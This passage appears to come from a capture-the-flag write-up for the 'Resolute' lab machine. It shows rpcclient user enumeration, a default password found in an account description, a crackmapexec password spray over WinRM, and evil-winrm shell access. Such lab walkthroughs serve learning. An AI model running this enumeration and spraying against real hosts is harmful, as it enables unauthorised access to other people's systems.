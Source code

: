 ```
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

We can user 'queryuser' inside the rpcclient to get more information about individual users, the user marko was very interesting

```
rpcclient $> queryuser marko
        User Name   :   marko
        Full Name   :   Marko Novak
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Account created. Password set to Welcome123!
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Thu, 01 Jan 1970 01:00:00 CET
        Logoff Time              :      Thu, 01 Jan 1970 01:00:00 CET
        Kickoff Time             :      Thu, 14 Sep 30828 04:48:05 CEST
        Password last set Time   :      Fri, 27 Sep 2019 15:17:15 CEST
        Password can change Time :      Sat, 28 Sep 2019 15:17:15 CEST
        Password must change Time:      Thu, 14 Sep 30828 04:48:05 CEST
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```

This means that 'Welcome123!' is the default password for every new user, First I tried to use it for marko but that did not work. The next step was to try this default Password for all users, which can easily be done using crackmapexec
```
crackmapexec winrm 10.10.10.169 -u userfile -p 'Welcome123!'
```
Which will return the following:
```
WINRM   10.10.10.169    5985    RESOLUTE        [+] MEGABANK\melane:Welcome123! (Pwn3d!)
```
We can use evil-winrm to log in as melanie with this password, thus get a shell on the box and earn the user flag
